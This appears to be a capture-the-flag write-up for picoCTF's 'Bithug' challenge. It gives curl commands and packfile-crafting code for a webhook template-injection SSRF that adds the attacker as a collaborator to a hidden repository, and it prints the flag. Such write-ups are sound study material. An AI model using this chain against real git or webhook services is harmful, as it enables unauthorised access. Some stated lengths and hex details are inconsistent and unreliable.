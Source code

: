# Full Step-by-Step Walkthrough for picoCTF "Bithug" Challenge
I have finished the "Bithug" Challenge (Hard level) from PicoCTF, and here is my walkthrough for you:
#
This walkthrough assumes you have:
- Access to the challenge instance (`http://venus.picoctf.net:<port>` – replace `<host>` and `<port>` accordingly).
- Tools like Wireshark (for packet capture), a hex editor (e.g., Hex Fiend or online tools), CyberChef (for base64 encoding), and Git.
- Basic knowledge of Git and HTTP.

The exploit chain:
1. Capture Git packfiles for adding a collaborator and triggering the webhook.
2. Create a webhook with template injection to SSRF a localhost request.
3. Trigger the webhook to add yourself as a collaborator to `/_/zwade.git`.
4. Clone the target repo and extract the flag.
#
## Step 1: Register and Set Up Your Repository
1. Navigate to the BitHug web interface (`http://<host>:<port>`).
2. Register a new user account. Use a simple username like hacker and password like pass. Log in.
3. Create a new repository named exploit (this will be your victim repo for webhooks).
4. Clone the repository locally:
```text
git clone http://hacker@<host>:<port>/hacker/exploit.git
cd exploit
```
  Enter your password when prompted. This sets up basic auth for Git operations.
#
## Step 2: Capture the "Add Collaborator" Packfile (Payload A)
This packfile will be used in the webhook body to update `access.conf` in `/_/zwade.git`, adding your username (`hacker`) as a collaborator. 
1. In your local `exploit repo`, create the collaborator commit:
```text
git checkout --orphan collab-branch
echo "hacker" > access.conf
git add access.conf
git commit -m "Add hacker as collaborator"
```
2. Set up packet capture to grab the HTTP POST body for `git-receive-pack`:
   - Start Wireshark and filter for HTTP traffic to `<host>:<port>`.
   - Or use `tcpdump` on your interface: `sudo tcpdump -i any -w capture.pcap host <host> and port <port>`.

3. Push to refs/meta/config (this triggers the receive-pack request):
```text
git push origin @:refs/meta/config
```
  Enter credentials if prompted.

4. In Wireshark:
      - Find the POST request to `/hacker/exploit.git/git-receive-pack`.
      - Follow the TCP/HTTP stream.
      - Switch to "C Arrays" or "Hex" view.
      - Copy the entire raw body (starting from the packfile header, e.g., `0030...` up to the end of the zlib-compressed pack). It should look like a long hex string (around 500-1000 bytes).

**Example snippet (yours will vary based on commit hash; full example from a writeup):**
```text
0x30, 0x30, 0x39, 0x34, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30,
0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30,
0x30, 0x30, 0x30, 0x30, 0x30, 0x20, 0x65, 0x37, 0x38, 0x36, 0x64, 0x65, 0x62, 0x61, 0x39, 0x36,
... (continues with new OID, "refs/meta/config\0", capabilities like "report-status side-band-64k agent=git/2.25.10000PACK", then pack data)
```
5. Paste the hex into CyberChef or a Python script to convert to binary, then base64-encode it (webhooks store bodies as base64). Python example:
```python
import binascii
import base64

hex_data = "30393034303030303030303030303030303030303030303030303030303030303030303030303020..."  # Your full hex string without 0x
binary_data = binascii.unhexlify(hex_data)
print(base64.b64encode(binary_data).decode('utf-8'))
```
Save the base64 output as `payload_a_b64` (`MDA5NDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAgZTc4NmRlYmE5NjcwNDM0NTQxYzBlNmY2YTQwZTliZDI2ZjE4YTk4YSByZWZzL21ldGEvY29uZmlnACByZXBvcnQtc3RhdHVzIHNpZGUtYmFuZC02NGsgYWdlbnQ9Z2l0LzIuMjUuMTAwMDBQQUNLAA...`).
#
## Step 3: Capture and Craft the "Trigger" Packfile (Payload B)
This packfile triggers the webhook by pushing to a malicious `ref` that injects the SSRF URL via template `{{ref}}`.
1. In your local exploit repo, create a commit with a long branch name (to make hex editing easier):
```text
git checkout -b long-trigger-branch
echo "trigger" > trigger.txt
git add trigger.txt
git commit -m "Trigger commit"
```
2. Capture the push again with Wireshark/tcpdump:
```text
git push origin long-trigger-branch
```
3. Extract the hex body from the POST to `/git-receive-pack` (similar to Step 2).The structure is:
     - 4-byte length (e.g., `0034` for a 52-char line).
     - `<40 zero bytes> <40-char new OID> <ref string>\0 <capabilities>\0 <zlib pack>`.

**Example hex snippet:**
```text
0034000000000000000000000000000000000000000000000000000000000000000000000000 <new_oid> refs/heads/long-trigger-branch\0 report-status side-band-64k agent=git/2.25.10000PACK\0 <pack>
```
4. Open in a hex editor:
    - Locate the `<ref string>` (after the second 40-char hex block, before `\0`).
    - Replace it with: `127.0.0.1:1823/_/zwade.git/git-receive-pack?a` (length: 41 chars).
    - Update the 4-byte length prefix at the start: Convert new line length (old length + delta) to hex, zero-padded (e.g., if new line is 81 chars total, length=81=0x51, so `0051`).
    - Keep everything else (OIDs, capabilities, pack) intact – the server only uses the `ref` for templating.

5. Convert the edited hex back to binary (as in Step 2's Python script), but do not base64 – you'll POST this raw.
#
## Step 4: Create the Malicious Webhook
1. Use curl or Burp Suite to POST to the webhook endpoint (authenticate with your session cookie or Basic Auth):
```text
curl -X POST http://<host>:<port>/hacker/exploit.git/webhooks \
  -H "Authorization: Basic $(echo -n 'hacker:pass' | base64)" \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://{{ref}}.com",
    "body": "'$payload_a_b64'",
    "contentType": "application/x-git-receive-pack-request"
  }'
```
  - The URL uses template injection: {{ref}} will be replaced with the trigger ref (e.g., 127.0.0.1:1823/_/zwade.git/git-receive-pack?a).
  - Filters block direct localhost/port 80, but templating bypasses this during execution.
  - Response: {} if successful.
#
## Step 5: Trigger the Webhook (Execute SSRF)
**POST the crafted trigger packfile (Payload B) to your repo's receive-pack endpoint to simulate a push:**
```text
curl -X POST http://<host>:<port>/hacker/exploit.git/git-receive-pack \
  --data-binary @trigger_packfile.bin \
  -H "Authorization: Basic $(echo -n 'hacker:pass' | base64)" \
  -H "Content-Type: application/x-git-receive-pack-request"
```
  - Create `trigger_packfile.bin` from your edited hex: `xxd -r -p edited.hex > trigger_packfile.bin`.
  - The server processes this as a push: Parses `ref` as the SSRF URL, formats webhook URL to `http://127.0.0.1:1823/_/zwade.git/git-receive-pack?a.com`.
  - It then POSTs Payload A (decoded) to that URL. Since it's from localhost, you get admin privileges, allowing the update to `/_/zwade.git`'s `access.conf`.
#
## Step 6: Access the Target Repository and Get the Flag
1. Now that you're a collaborator, clone the hidden repo:
```text
git clone http://hacker@<host>:<port>/_/zwade.git
cd zwade
```
2. Read the flag
```text
cat README.md
```
Output: `picoCTF{good_job_at_gitting_good}`
#
# Troubleshooting Tips
- Hex editing errors: Ensure the line length is correctly calculated (total bytes of `<old> <new> <ref>\0`). Test by pushing a manually crafted simple pack to your own repo.
- Capture issues: If Wireshark is tricky remotely, run the challenge locally via Docker (from source) and log `req.body.toString('hex')` in `git-api.ts`.
- Port/Host: The internal port is 1823 (from Dockerfile); adjust SSRF ref if needed.
- Variations: Commit hashes/OIDs change; always recapture for accuracy.

This exploit combines SSRF, template injection, and Git protocol abuse! If you hit issues, double-check hex lengths or share your captured packfile hex for debugging.




























